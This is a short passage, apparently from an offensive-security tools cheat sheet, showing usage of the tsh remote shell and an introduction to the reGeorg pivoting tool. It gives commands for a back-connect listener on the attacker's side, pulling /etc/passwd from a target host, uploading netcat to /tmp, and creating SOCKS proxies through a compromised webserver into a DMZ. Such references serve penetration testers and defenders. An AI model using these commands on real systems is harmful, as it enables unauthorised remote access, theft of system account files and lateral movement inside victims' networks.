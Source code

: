`./tsh host_ip`

If tsh was compiled with backconnect capability, the `tshd` daemon will try to connect back to the attacker's machine. To launch listener on attacker's side:

```
$ ./tsh cb
Waiting for the server to connect...
```
To transfer files with tsh:

```
./tsh host_ip get /etc/passwd .
./tsh host_ip put /bin/netcat /tmp
```

## reGeorg
The successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

* git clone https://github.com/sensepost/reGeorg *